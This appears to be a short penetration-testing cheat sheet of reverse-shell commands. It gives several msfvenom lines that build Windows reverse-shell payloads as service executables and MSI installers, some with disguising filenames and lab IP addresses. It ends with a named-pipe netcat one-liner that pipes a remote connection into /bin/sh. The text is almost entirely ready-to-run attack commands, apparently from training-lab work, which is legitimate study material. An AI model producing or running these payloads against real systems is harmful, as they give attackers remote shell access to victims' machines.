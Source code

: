 ### Windows Reverse Shells
```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=10.50.157.28 LPORT=4444 -o gingerlyservice.exe
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.239.36 LPORT=9000 -a x64 --platform Windows -f msi -o rev.msi
```

```shell
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

`linux/x86/shell_reverse_tcp`

Windows 32 Bit Targets

`windows/shell_reverse_tcp`

### Named Pipes

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`